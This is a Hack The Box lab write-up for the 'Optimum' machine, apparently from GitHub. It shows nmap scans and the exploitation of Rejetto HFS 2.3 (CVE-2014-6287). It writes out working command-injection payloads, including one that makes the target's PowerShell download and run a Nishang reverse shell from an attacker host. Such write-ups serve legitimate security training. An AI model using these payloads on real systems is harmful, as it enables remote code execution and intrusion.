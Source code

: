 # Hack The Box - Optimum

```CSS
Machine IP: 10.10.10.8

Vulnerabilities:
  - Rejetto HTTP File Server 2.3: CVE-2014-6287 (w/o MetaSploit)
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.8 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.8 -oN deep.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP #80
![image](https://user-images.githubusercontent.com/83878909/235110690-0249d8ca-39e8-42c0-b237-2aab3e219a96.png)

### HTTP File Server 2.3
  - CVE-2014-6287 : The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Exploit
![image](https://user-images.githubusercontent.com/83878909/236133911-37a8b4c2-129c-4215-81f0-4b67efba6033.png)

#### Command Execution

```CSS
▶ tcpdump -i tun0
```
```CSS
%00{.exec|ping 10.10.14.21.}
```
![image](https://user-images.githubusercontent.com/83878909/236135355-c044f521-5cea-4d4c-abb3-95aafa954d6c.png)
![image](https://user-images.githubusercontent.com/83878909/236134669-802324a7-fbd7-4cf3-9cd8-6bc4c8336c04.png)

#### Reverse Shell (Nishang)

- `Invoke-PowerShellTcp.ps1`
![image](https://user-images.githubusercontent.com/83878909/236135960-4b5a97fd-8c54-4847-ac0e-f6e6c1dbed23.png)

  - Copy and Paste the line of code to the bottom of the sciript.
  - Edit the code.
![image](https://user-images.githubusercontent.com/83878909/236136805-0bc1601e-7bad-4b11-bad7-3206cf2f3dcd.png)
![image](https://user-images.githubusercontent.com/83878909/236137400-fad06366-6e40-4a1f-b0de-1f1d8831b9ff.png)

  - Upload the `Nishang` script.
  - Start a reverse `Netcat` listener.

```CSS
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1').}
```
![image](https://user-images.githubusercontent.com/83878909/236139893-93d6cafd-91f1-4da8-94cc-4c2a5ca6079b.png)
![image](https://user-images.githubusercontent.com/83878909/236139759-484a70c3-ca74-4e01-9096-50befb2d0dc6.png)

